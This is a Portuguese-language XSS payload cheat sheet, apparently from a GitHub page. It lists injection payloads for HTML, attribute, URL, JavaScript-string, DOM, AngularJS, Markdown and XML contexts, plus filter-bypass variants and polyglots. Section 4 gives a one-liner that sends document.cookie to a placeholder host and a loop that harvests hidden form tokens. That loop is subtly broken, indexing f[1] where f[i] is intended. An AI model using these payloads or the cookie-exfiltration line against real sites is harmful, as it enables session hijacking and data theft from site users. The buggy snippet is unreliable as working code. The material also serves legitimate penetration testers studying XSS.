 
#### 1. Basic Payload per Contexts

- **HTML Injection (Body)**
	- **Quando Usar?:** Reflexão direta no HTML, fora de qualquer tag.
	- **Payload:** `<img src=1 onerror=alert(1)>`
	- **Por que funciona:** IMG é uma tag HTML5 que permite eventos onload e é menos filtrada que `<script>`, assim como `SVG`, `IFRAME`
- **HTML Injection (Attribute):**
	- **Quando Usar?:** Reflexão dentro de `value="..."`, `class="..."`, etc.
	- **Payload:** `" onmouseover=alert(1) //`
	- **Por que funciona:** Escapa do atributo com aspas e cria um novo atributo de evento.
- **HTML Injection (Dentro de ``href/src/action``)**
	- **Quando Usar?:** Reflexão dentro de um atributo que espera uma URL
	- **Payload:** `javascript:alert(1)`
	- **Por que funciona:** Usa o pseudo-protocolo `javascript:` que o navegador executa ao invés de navegar.
- **Javascript Injection (Dentro de String JS)**
	- **Quando Usar?:** Reflexão dentro de `<script>var x = '...';</script>`
	- **Payload:** `'-alert(1)-'`.
	- **Por que funciona:** Escapa do contexto da string JS para injetar código executável.

#### 2. Bypass de Filtros Comuns

- **Filtro: Bloqueio de `<script>`, `onerror` e `onload`**
	- **Técnica:** Use ofuscação, casos mistos e tags/eventos menos comuns.
	- **Payload:** `<details open ontoggle=alert(1)>`
	- **Payload:** `<Svg OnLoad=alert(1)>`
	- **Payload:** `<script/x>alert(1)</script>`
	- **Payload:** `<svg/on<script>load=alert(1)` : Se o filtro remove "script", este payload vira `<svg/onload=alert(1)>`
	- **Payload:** `<svg><set onbegin=alert(1)>`.
	- **Payload:** `<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click Me</text/></a>`
	- **Payload:** ``<svg><animateTransform onbegin=alert(1) attributeName="transform" type="rotate" from="0" to="0" dur="1s" />``
- **Filtro: Bloqueio de Parênteses `()`**
	- **Técnica:** Usar acento grave (template literals).
	- **Payload:** ```alert `1` ```
	- **Payload:** `onerror=alert;throw 1`
	- **Payload:** `x=x=>{throw/**/onerror=alert,1},toString=x,window+'',{x:'`
- **Filtro: Bloqueio da palavra "alert"**
	- **Técnica:** Obfuscação e métodos alternativos.
	- **Payload:** `top["al"+"ert"](1)`
	- **Payload:** `(confirm)(1)` (Variação de `alert(1)`).
- **Filtro: Encode de `<` e `>`
	- **Técnica:** Focar em bypass de contexto.
	- **Payload:** `" autofocus onfocus=alert() x="`
	- **Payload:** `" onmouseup="alert()`
- **Filtro: Escape de aspas simples, aspas duplas e barra invertida**
	- **Técnica:** Usar eventos sem aspas ou codificar valores.
	- **Payload:** `onmouseover=alert(1)`
	- **Payload:** `\';alert()//`
	- **Payload:** `&apos;-alert(document.domain)-&apos;`
	- 
#### 3. DOM XSS

- **Fonte Comum:** `location.hash`
	- **Quando Usar?:** Quando o JS da página usa o conteúdo após o `#` da URL.
	- **Técnica:** Inserir HTML no hash, pois ele não é enviado ao servidor e, portanto, não é sanitizado no server-side
	- **Exemplo de URL de Ataque:** `http://alvo.com/page#<img src=x onerror=alert(1)>` 
- **Fonte Comum:** `postMessage()`
	- **Quando Usar?:** Quando uma página usa `window.addEventListener('message', ...)` sem validar a origem.
	- **Técnica:** Criar um `iframe` e enviar uma mensagem maliciosa para a janela pai.
	- **Payload:** `<iframe src=TARGET_URL onload="frames[0].postMessage('INJECTION', '*')">`.
- **Fonte comum:** `attr()`
	- **Quando Usar?:** Quando uma página usa a função `attr()` do Jquery para retornar para uma página
	- **Técnica:** Inserir o payload `javascript:` no lugar do link de retorno.
	- **Payload:** `?returnUrl=javascript:alert(document.domain)`

- **Sinks:**
	- document.write()
	- document.writeln()
	- document.domain
	- element.innerHTML
	- element.outerHTML
	- element.insertAdjacentHTML
	- element;onevent
- **jQuery Sinks**
	- add()
	- after()
	- append()
	- animate()
	- insertAfter()
	- insertBefore()
	- before()
	- html()
	- prepend()
	- replaceAll()
	- replaceWith()
	- wrap()
	- wrapInner()
	- wrapAll()
	- has()
	- constructor()
	- init()
	- index()
	- jQuery.parseHTML()
	- $.parseHTML()

#### 4. Poliglotas e One-Liners Úteis

Aqui não são payloads, mas snippets de JavaScript para quando você já conseguiu a execução;

- **Roubar Cookies:** `fetch('//sua-url.com/?c='+document.cookie)`
- **Roubar Tokens de Forms:** `var f=document.forms;for(i=0;i<f.length;i++){e=f[1].elements;for(n in e){if(e[n].type=='hidden'){alert(e[n].name+':'+e[n].value)}}}`.
- **Poliglota zseano:** `<s>000'")};--//`
	- `<s>`(teste de tag HTML)
	- `"` e `'` (fechamento de atributos)
	- `)` (fechamento de função JS)
	- `};` (fechamento de bloco JS)
	- `--` (comentario SQL)
- **Poliglota de HTML brute lojic:** ```</Script/--><Body/Autofocus/OnFocus = confirm `1```

#### 5. Payloads para Contextos Especificos

- **Dentro de Template Literals JavaScript**
	- **Contexto:** O input reflete dentro de uma string JS delimitada por acentos graves (\`)
	- **Payload:** `${alert(1)}`. Extremamente eficas em frameworks JS modernos.
- **Dentro de Frameworks Especificos:**
	- **Contexto:** A página usa AngularJS.
	- **Payload:** `{{\$new.constructor('alert(1)')()}}` ( para v1.6+)
	- **Payload:** `'a'.constructor.prototype.charAt=[].join` ( para escape sandbox)
	- **Payload:** `[123]|orderBy:expression` (Para caso não possa utilizar $eval)
	- **Payload:** `(true.toString()).constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1` (bypass de filtros, x=alert(1)=1, chama alert(1))
	- Nota: Junte as tecnicas.
- **Contexto de Markdown:**
	- **Quando Usar?:** Em campos de comentário ou descrição que aceitam Markdown.
	- **Payload:** ```[clickme](javascript:alert`1`)```
- **Contexto de XML/SVG**
	- **Quando Usar?:** Quando o `Content-Type` da resposta é `application/xml` ou `text/xml`
	- **Payload:** `<x:script xmlns:x="http://www.w3.org/1999/xhtml">alert(1)</x:script>`
